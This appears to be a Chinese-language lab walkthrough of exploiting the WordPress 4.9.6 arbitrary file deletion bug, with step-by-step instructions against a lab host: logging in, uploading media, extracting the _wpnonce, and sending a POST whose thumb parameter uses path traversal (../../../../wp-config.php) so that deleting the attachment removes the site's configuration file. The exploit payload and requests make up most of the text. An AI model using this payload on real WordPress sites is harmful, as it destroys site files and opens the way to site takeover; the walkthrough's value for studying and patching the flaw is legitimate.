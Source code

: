 https://blog.ripstech.com/2018/wordpress-file-delete-to-code-execution/

# 0x03 漏洞利用

条件：需要登陆后台，有点鸡助

![img](Wordpress 4.9.6 任意文件删除漏洞/1022038-20180706105823819-1233461762.png)

 

 

后台地址：

http://10.10.10.103/wp-login.php?redirect_to=http%3A%2F%2F10.10.10.103%2Fwp-admin%2F&reauth=1

![img](Wordpress 4.9.6 任意文件删除漏洞/1022038-20180706105858245-1720007462.png)

进入后台后，点击Media（媒体），在点击Add New (添加)

![img](Wordpress 4.9.6 任意文件删除漏洞/1022038-20180706110008374-2026165373.png)

进入到上传文件位置

![img](Wordpress 4.9.6 任意文件删除漏洞/1022038-20180706110040424-302900488.png)

上传好图片以后，点击右边Edit（编辑按钮）

![img](Wordpress 4.9.6 任意文件删除漏洞/1022038-20180706110155625-560565545.png)

跳转到

http://10.10.10.103/wp-admin/post.php?post=21&action=edit

![img](Wordpress 4.9.6 任意文件删除漏洞/1022038-20180706110236971-178772264.png)

此时打开F12,搜索post.php,找到_wpnonce的值为d8efee3064

![img](Wordpress 4.9.6 任意文件删除漏洞/1022038-20180706110440828-479255461.png)

 

 然后发送post数据包 (需要带入cookie值)

POST /wp-admin/post.php?post=21&action=edit HTTP/1.1

payload: action=editattachment&_wpnonce=d8efee3064&thumb=../../../../wp-config.php

 ![img](Wordpress 4.9.6 任意文件删除漏洞/1022038-20180706111018965-282511331.png)

发送成功会返回302状态

此时在点击删除按钮 [Delete Permanently](http://10.10.10.103/wp-admin/post.php?post=21&action=delete&_wpnonce=05621e9c6b)

http://10.10.10.103/wp-admin/post.php?post=21&action=delete&_wpnonce=05621e9c6b

 

![img](Wordpress 4.9.6 任意文件删除漏洞/1022038-20180706111207834-1491111578.png)
